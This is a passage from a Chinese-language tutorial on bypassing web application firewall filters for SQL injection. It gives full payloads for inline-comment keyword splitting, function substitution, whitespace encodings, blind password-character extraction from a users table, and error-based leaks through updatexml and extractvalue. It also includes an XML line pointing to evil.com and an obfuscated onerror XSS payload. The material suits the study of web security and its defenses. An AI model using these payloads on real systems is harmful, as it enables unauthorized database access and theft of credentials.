/**/在构造的查询语句中插入注释规避对空格的依赖或关键字识别#、--+用于终结语句的查询

#### 2.内联注释

相比普通注释内联注释用的更多/*!content*/只有 MySQL 会正常识别 content 的内容其他

```
index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3 
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4… 
```

两个示例中前者使用内联注释后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分要做到这一点后面讨论的特殊符号也能实现当然前提是包括/、*在内的这些字符能正常使用。

### e)等价函数与命令

有些函数或命令因其关键字被检测出来而无法使用但是在很多情况下可以使用与之等价或类似的代码替代其使用

#### 1.函数或变量

```
hex()、bin() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir() 
```

举例 substring()和 substr()无法使用时

```
?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74 
```

或者

```
substr((select 'password'),1,1) = 0x70 
strcmp(left('password',1), 0x69) = 1 
strcmp(left('password',1), 0x70) = 0 
strcmp(left('password',1), 0x71) = -1 
```

上述这几个示例用于说明有时候当某个函数不能使用时还可以找到其他的函数替代其实现至于 select、uinon、where 等关键字被限制如何处理将在后面 filter 部分讨论

#### 2.符号

and 和 or 有可能不能使用可以试下&&和||能不能用还有=不能使用的情况可以考虑尝试<、>因为如果不小于又不大于那便是等于了

再看一下用得很多的空格可以使用如下符号代替其使用

```
%20 %09 %0a %0b %0c %0d %a0 /**/ 
```

#### 3.生僻函数

MySQL/PostgreSQL 支持 XML 函数

```
Select UpdateXML('<script x=_></script> ','/script/@x/','src=//evil.com');
?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql
?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1))); 
```
